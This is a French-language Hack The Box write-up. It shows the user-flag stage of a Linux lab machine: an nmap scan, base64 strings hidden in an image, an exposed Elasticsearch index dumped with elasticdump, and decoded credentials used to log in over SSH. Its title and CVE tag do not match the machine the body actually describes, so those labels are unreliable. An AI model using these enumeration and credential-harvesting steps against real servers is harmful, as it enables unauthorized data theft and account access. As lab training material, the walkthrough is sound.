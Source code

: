 ```yaml
---
layout: post
title: HTB - Safe
subtitle: Hack The Box - Linux Machine - Easy 
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [HTB, Linux, Elasticsearch, CVE-2019-16278, RCE]
comments: false
---
```



1- User.txt

~~~
root@Host-001:~# nmap -A 10.10.10.115
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-15 20:51 CEST
Nmap scan report for 10.10.10.115
Host is up (0.018s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open  http    nginx 1.12.2
| http-methods: 
|_  Potentially risky methods: DELETE
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   17.07 ms 10.10.14.1
2   18.55 ms 10.10.10.115

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.10 seconds
~~~

Les ports 22 80 et 9200 sont ouverts

Sur le port 80 on trouve une image. Téléchargeons l'image et regardons si il y a des chaines de charactères:

~~~
root@Host-001:~/Bureau# strings needle.jpg
(...)
bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==
~~~

Décodons: https://www.base64decode.org/<

Résultat: la aguja en el pajar es "clave"

Ce qui signifie: the needle in the haystack is "key"

Regardons ce qu'il y a sur le port 9200 http://10.10.10.115:9200/

On tombe sur un DB. Le cluster_name est elasticsearch

On google et on comprend que le site utilise Elasticsearch (même logo): [https://en.wikipedia.org/wiki/Elasticsearch](https://en.wikipedia.org/wiki/Elasticsearch)

Tentons de chercher 'needle' en vue du base64 décodé:

http://10.10.10.115:9200/_search?q=%27needle%27

On trouve:
~~~
(...)
_index	"quotes"
_type	"quote"
_id	"2"
_score	5.427053
_source	
quote	"There's a needle in this haystack, you have to search for it"
~~~

Dumpons la DB avec elasticdump: [https://github.com/taskrabbit/elasticsearch-dump](https://github.com/taskrabbit/elasticsearch-dump)

~~~
root@Host-001:~/Bureau/elasticsearch-dump/bin# ./elasticdump --input=http://10.10.10.115:9200/quotes/ --output=dump
~~~

En analysant minutieusement le dump on trouve 2 ligne avec du base 64:

~~~
{"_index":"quotes","_type":"quote","_id":"111","_score":1,"_source":{"quote":"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="}}
~~~

Décodé: pass: spanish.is.key

~~~
{"_index":"quotes","_type":"quote","_id":"45","_score":1,"_source":{"quote":"Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "}}
~~~

Décodé: user: security 

~~~
root@Host-001:~# ssh security@10.10.10.115
The authenticity of host '10.10.10.115 (10.10.10.115)' can't be established.
ECDSA key fingerprint is SHA256:ihn2fPA4jrn1hytN0y9Z3vKpIKuL4YYe3yuESD76JeA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.115' (ECDSA) to the list of known hosts.
security@10.10.10.115's password: 
Last failed login: Tue Oct 15 19:27:55 -03 2019 from 10.10.14.18 on ssh:notty
There was 1 failed login attempt since the last successful login.
Last login: Wed Feb  6 20:53:59 2019 from 192.168.2.154
[security@haystack ~]$ ls
user.txt
[security@haystack ~]$ cat user.txt
04d18bc79dac1d4d48ee0a940c8eb929
[security@haystack ~]$ 
~~~

**Poursuivez avec :** 

[- Oneliner Shells](https://0xss0rz.github.io/2020-05-10-Oneliner-shells/)

[- HTB - Write Up Machine](https://0xss0rz.github.io/2020-08-04-HTB-Write-Up/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
